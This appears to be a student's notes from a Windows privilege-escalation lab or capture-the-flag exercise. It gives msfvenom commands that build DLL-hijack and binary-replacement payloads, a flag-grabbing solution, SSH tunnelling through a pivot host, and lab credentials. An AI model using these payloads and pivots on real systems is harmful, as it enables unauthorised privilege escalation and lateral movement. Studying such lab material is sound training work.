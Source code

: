 ## Showcase
### Fake Payload write permissions (dll emplacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f dll > SSPICLI.dll
____________________________________________________________________________________________________________________
## Showcase
### Fake Payload rename permissions (exe replacement)
    msfvenom -p windows/exec CMD='cmd.exe /C "whoami" > c:\users\student\Desktop\whoami.txt' -f exe > putty.exe
____________________________________________________________________________________________________________________
## For the DEMO!!!
### To kill the putty.exe we downloaded and launched.
    (get-process | ?{$_.name -like "putty"}).kill()
____________________________________________________________________________________________________________________
### Final CTF solution with paths and command to display contents in .txt
    msfvenom -p windows/exec CMD='cmd.exe /C "type C:\users\Admin\Desktop\flag.txt" > C:\Users\comrade.WIN2-INTERNAL-D\Desktop\lookwhatifound.txt' -f dll > hijackmeplz.dll
____________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot: 192.168.28.105
## -->T1: 192.168.28.5

    ssh -MS /tmp/jump student@10.50.25.229
    ssh -S /tmp/jump jump -O forward -L20005:192.168.28.105:2222
    ssh -S /tmp/t1 t1 -O forward -L20006:192.168.28.5:3389
    xfreerdp /v:127.0.0.1:20006 /u:comrade /p:StudentPrivPassword /size:1920x1000 +clipboard

## Pivot
### Hostname: ftp.site.donovia
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: donovian-windows-private
### IP: 192.168.28.5
### OS: Windows ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: 3389
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
